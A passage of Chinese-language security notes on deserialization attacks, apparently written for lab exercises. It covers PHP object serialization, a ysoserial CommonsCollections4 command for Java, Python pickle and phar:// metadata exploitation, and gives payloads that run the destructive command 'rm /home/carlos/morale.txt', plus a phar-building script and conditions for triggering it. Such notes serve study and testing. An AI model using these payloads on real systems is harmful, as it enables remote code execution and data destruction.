 ```php
$b->default_desc_type="rm /home/carlos/morale.txt";

echo serialize($b);
?>
```

3. JAVA通用反序列化

```shell
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

4. JAVA自定义构造反序列化工具链 

审计源码，发现有一个SQL注入的漏洞点，构造相应对象的值，然后序列化，这个过程可以在SQL的例子看见

附件：javaserial 用于快速构造符合自己的序列化对象，

6. python反序列化

Pyhthon 没有现成的工具链利用脚本，主要还是依赖于源码的审计，用pickle实现





7. phar反序列化

phar://协议是一种解压缩协议，它的目标文件是.phar文件，像是jar包一样，是PHP文件的归档，其中有三个部分，stub标识，manifest 描述性信息，filecontent 文件内容， signature 签名,其中描述信息有一项metadata，这项数据默认以serialize的方式存储，当通过phar协议访问它的时候，会自动反序列化该项的数据，以此触发反序列化漏洞。

```php
<?php
    class Test{
        public $test="test";
    }
    @unlink("test.phar");
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering();    //签名自动计算
?>

```

触发条件

1. 当参数以eval($_GET["file"])的方式调用的时候，可以触发phar协议（不常见，直接用命令注入更爽）

2. 当参数以file_get_contents("./XXX".$_GET["file"])的方式使用的时候，触发不了，需要源码审计找另外一个可控的文件读取点，如果没有"./XXX",直接在参数注入phar即可触发。（常见）

   

   



其他
